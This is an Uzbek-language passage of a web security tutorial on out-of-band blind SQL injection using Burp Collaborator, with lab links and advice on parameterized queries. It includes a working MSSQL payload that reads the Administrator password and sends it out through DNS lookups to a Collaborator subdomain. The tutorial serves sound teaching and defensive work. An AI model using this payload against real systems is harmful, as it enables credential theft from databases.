 \*\*Bu ma'lumotlar bazasi quyidagi domenni qidirishga olib keladi: \*\*

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

Siz Burpsuitening Collabratori orqali **uniq subdomen** yaratishingiz va har qanday DNS qidiruvi bo'lganda tasdiqlash uchun **Collaborator server**iga so'rov o'tkazing.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [OAST o'zaro ta'siri orqali Blind SQL ineksiya hujumi **≫**](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)****
{% endhint %}

OAST o'zaro tasirlarini ishga tushirish usulini tasdiqlaganingizdan so'ng, zaif dasturdan ma'lumotlarni olish uchun OAST kanalidan foydalanishingiz mumkin. Misol uchun:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

Ushbu SQL so'rovi `Administrator` foydalanuvchisining parolini o'qiydi, **uniq Collaborator subdomen**ini qo'shadi va **DNS qidiruv**ini ishga tushiradi. Bu sizga olingan parolni ko'rish imkonini beruvchi quyidagi kabi **DNS** qidiruviga olib keladi: **S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net**

OAST usuli muvaffaqiyatga erishish ehtimoli va OAST kanali ichidagi ma'lumotlarni to'g'ridan-to'g'ri eksfiltratsiya qilish qobiliyati tufayli **Blind SQL** in'ektsiyasini aniqlash va undan foydalanishning juda kuchli usuli hisoblanadi.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Out-of-band ma'lumotlar exfiltratsiyasi yordamida Blind SQL ineksiya hujumi **≫**](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)****
{% endhint %}

## <mark style="color:yellow;">Blind SQL ineksiya hujumini qanday qilib oldini olish mumkin ?</mark> <a href="#blind-sql-ineksiya-hujumini-qanday-qilib-oldini-olish-mumkin" id="blind-sql-ineksiya-hujumini-qanday-qilib-oldini-olish-mumkin"></a>

**Blind SQL** ineksiya zaifliklarini topish va ulardan foydalanish uchun zarur bo'lgan usullar oddiy SQL ineksiyadan farqli va murakkabroq bo'lsada, SQL ineksiyaning oldini olish uchun zarur bo'lgan choralar zaiflik bor yoki yo'qligidan qat'iy nazar, bir xil bo'ladi.

Oddiy SQL ineksiyada bo'lgani kabi, parametrlangan so'rovlardan foydalanish orqali **Blind SQL** ineksiya hujumlarining oldini olish mumkin, bu esa foydalanuvchi kiritishiga mo'ljallangan SQL so'rovi tuzilishiga xalaqit bermasligini ta'minlaydi.
